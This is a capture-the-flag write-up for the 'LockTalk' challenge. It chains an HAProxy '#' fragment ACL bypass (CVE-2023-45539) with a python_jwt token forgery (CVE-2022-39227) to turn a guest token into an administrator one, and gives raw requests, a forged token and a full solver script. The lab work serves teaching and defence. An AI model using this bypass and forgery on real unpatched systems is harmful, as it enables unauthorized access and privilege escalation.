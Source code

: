 ### Description:

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Objective

HAProxy CVE-2023-45539 => python_jwt CVE-2022-39227

### Difficulty:

`medium`

### Flag:

`HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

# Challenge

![](assets/challenge.PNG)

### Get access ticket by bypassing HAProxy ACL with **#** fragment 
Based on [CVE-2023-45539 advisory description](https://www.cvedetails.com/cve/CVE-2023-45539/), HAProxy accepts # (fragment) as part of URI, which allows ACL bypass on blocked endpoint by frontend. \
In the given application, there is an ACL for **/api/v1/get_ticket** endpoint.
```bash
...

http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }

...
```
By utilizing the # fragment on the /api/v1/get_ticket endpoint, we can bypass the ACL, obtain the JWT token, and proceed with the next stage of exploitation.
```bash
GET /api/v1/get_ticket# HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close
```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server
connection: close

{"ticket: ":"[JWT_TOKEN]"}
```

### Forging a new JWT Token with tampered claims in order to bypass role restrictions
python_jwt module version 3.3.3 is vulnerable to forging new valid JWT tokens without knowing the secret used by the backend to verify the JWT tokens. Exploiting this vulnerability, a user could bypass role restrictions and hijack user identities by tampering with existing token claims and adding new ones. \
 \
Exploit involves constructing a fake JWT by tampering with the payload section while preserving the original header and signature. Through careful manipulation of base64-encoded payload data, attackers can inject unauthorized claims such as altering user identities or extending token expiration times.

In order to forge a new token with tampered claims, we need to obtain a valid JWT token from the */api/v1/get_ticket* endpoint. \

Let's create the script for generating a tampered token. First, we need to parse the three parts of the JWT token: header, payload, and signature.
```python
[header, payload, signature] = token.split(".")
```
\
Decode from base64 and parse into a JSON object the JWT token. \
On the second line we change the role of the JWT token to administrator
```python
parsed_payload = loads(base64url_decode(payload))
parsed_payload["role"] = "administrator"
```
\
Generate final JWT token. The fake_payload line its serializes the `parsed_payload` JSON object into a string using `json.dumps` with custom seperators such as  (, for items and ':' for key-value pairs). Then, it encodes the string using `base64url_encode` which encodes the string to a valid base64 format. \

The return statement constructs a new JWT token string. It includes:
- header: The original header of the JWT token.
- fake_payload: The manipulated payload, which has been encoded and formatted.
- "":"": An empty field between the header and payload.
- "protected": The header again.
- "payload": The original payload.
- "signature": The original signature.
```python
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))
return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```

### Get the flag
After generating the final JWT token, a GET flag request should look like the following:
```bash
GET /api/v1/flag HTTP/1.1
Host: localhost:1337
Authorization: {" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"hXIK5TCaHej4Q_ZNpXHb-e4Lssd8sFw1Xx9M-8hdKotb0OPwE5-tymyHXODh7TY2J6xHNCiKkGUYS9JwyDWuwQV7fAaospyE4njbEJOF3qiT-sXUkSbwMVMYHMQ9AiGsBJFjPaA__8l6NrqKKcBO-aPvg-7tlMA0YIbG_KewcRbnI7Bu1ewfkY4-0N4MVZdAuExETnal7FnKcTiyx0v8zKTwbkn1hf1ATLb8zkdisj_TAghukx_6r3VCB1slhbnmbHOPqpIOs5HdEu9v8KC74g23UqE7yvC2H_HRJuS73Y9Q6sARdmtUI1e0ooWyo7Lsv0zTA30Z47mrEIcVk2IWjg"}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close

```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 45
server: uWSGI Server
connection: close

{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

# Resources
[CVE-2023-45539 : HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive info](https://www.cvedetails.com/cve/CVE-2023-45539/) \
[奇安信攻防社区-CVE-2022-39227漏洞分析](https://forum.butian.net/share/1990) \
[https://github.com/Casualtek/Ransomchats](https://github.com/Casualtek/Ransomchats)

# Solver

```python
from jwcrypto.common import base64url_encode, base64url_decode
from json import loads, dumps
import requests
import socket

def send_raw_http_request(host, port, request):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    client_socket.connect((host, port))

    client_socket.sendall(request.encode())

    response = b""
    while True:
        recv_data = client_socket.recv(1024)
        if not recv_data:
            break
        response += recv_data

    client_socket.close()

    return response.decode()

def get_token(host,port):
    request = f"""GET /api/v1/get_ticket# HTTP/1.1\r\nHost: {host}:{port}\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36\r\nConnection: close\r\n\r\n"""

    response = send_raw_http_request(host, 1337, request)
    json_start = response.find("{")
    json_end = response.rfind("}") + 1
    json_data = response[json_start:json_end]

    ticket_dict = loads(json_data)
    token = ticket_dict.get("ticket: ") 

    return token

def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

def get_flag(host,port,token):

    headers = {"Authorization": token}
    req = requests.get(f"http://{host}:{port}/api/v1/flag", headers=headers)
    
    return req

host = "localhost"
port = 1337

guest_token = get_token(host, port)
admin_token = exp(guest_token)
flag = get_flag(host, port, admin_token)

print(flag.text)
```
